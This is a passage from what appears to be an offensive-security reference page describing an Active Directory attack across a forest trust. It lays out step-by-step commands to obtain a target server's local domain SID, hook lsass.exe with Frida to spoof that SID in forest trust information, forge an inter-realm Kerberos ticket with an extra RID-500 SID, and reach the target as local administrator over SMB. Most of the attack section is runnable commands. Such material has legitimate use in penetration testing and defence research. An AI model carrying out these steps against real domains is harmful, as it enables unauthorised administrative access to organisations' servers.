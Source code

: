 
> [!WARNING]
> Some considerations to reproduce the attack:
> 
> * Full control over the trusted forest is assumed.
> * Information that flows over to the trusting forest can be modified.
> * There is at least one server joined to a domain in the trusting forest (referred to as the "target server" here).


The attack can be conducted with [Dirk-jan Mollema](https://twitter.com/_dirkjan)'s [forest trust tools](https://github.com/dirkjanm/forest-trust-tools).

##### 1. Get Local Domain SID
```bash
# Obtain the local domain's SID of the target server in the trusting forest
# The hostname (Security Principal Name) of the target server is required
getlocalsid.py "trusted_domain"/"someusername"@"<target_server_FQDN or IP address>" "target_server_NETBIOS_name"
```

##### 2. Spoof the target SID
```bash
# Become a "domain" in the trusted forest using the spoofed SID so that this one is added to the authorized SIDs in the trusting domain
# Intercept the Netlogon request for an existing child domain in the trusted forset and modify the SID with the spoofed one by hooking lsass.exe when the NetrGetForestTrustInformation RPC call is made
# Notice that the SID of the child domain to look for and the local domain's SID of the target server should be modified with the right values
# This is to be run as SYSTEM on the trusted DC
python3 .\frida_intercept.py lsass.exe
```

##### 3. Get local admin on the target
```bash
# 1. Forge an inter-realm/referral ticket with the spoofed SID put as extended SID with RID 500 using the AES key of the incoming trust
ticketer.py -aesKey "AES_key_of_incoming_trust" -domain "trusted_root_domain_FQDN" -domain-sid "trusted_root_domain_SID" -user-id 1000 -groups 513 -extra-sid "<spoofed_SID>"-500 -spn "krbtgt/trusting_root_domain_FQDN" "someusername"

# 2. Request a service ticket using the forged referral ticket
# Notice that keys has to be manually modified in the getftST.py script before
KRB5CCNAME="someusername.ccache" getftST.py -spn "CIFS/target_server_FQDN" -target-domain "trusting_root_domain_FQDN" -via-domain "trusted_root_domain_FQDN" "domain/username" -dc-ip "target_DC_IP"

# 3. Use the obtained ST to access the target server as local admin
KRB5CCNAME=username.ccache smbclient.py -k "trusted_domain"/"someusername"@"target_server_FQDN" -no-pass
```

#### 🛠️ Keys container trust

// [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research)
